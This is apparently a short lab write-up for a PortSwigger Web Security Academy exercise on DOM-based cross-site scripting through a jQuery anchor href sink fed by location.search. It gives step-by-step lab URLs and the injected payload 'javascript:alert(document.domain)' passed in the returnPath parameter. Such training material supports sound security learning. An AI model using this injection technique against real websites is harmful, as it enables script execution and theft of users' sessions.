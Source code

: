 # DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

## This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in the submit feedback page. It uses the jQuery library's `$` selector function to find an anchor element, and changes its `href` attribute using data from `location.search`.

## To solve this lab, make the "back" link alert `document.cookie`.

note: =>

## payload for href = javascript:alert(document.domain)

---

### step 1

go to feedback form

https://0aa5003e040f5dabc06127b800800039.web-security-academy.net/feedback?returnPath=/feedback
and inspect feedback form
![screenshot](images/lab5_feedback_form.jpg)

![screenshot](images/lab5_feedback_form_ui.jpg)

change url

https://0aa5003e040f5dabc06127b800800039.web-security-academy.net/feedback?returnPath=/feedback
to

https://0aa5003e040f5dabc06127b800800039.web-security-academy.net/feedback?returnPath=test
` <a id="backLink" href="test">Back</a>`

now use payload
`javascript:alert(document.domain)`

https://0aa5003e040f5dabc06127b800800039.web-security-academy.net/feedback?returnPath=javascript:alert(document.domain)

![screenshot](images/lab5_form_page_alert_popup.jpg)
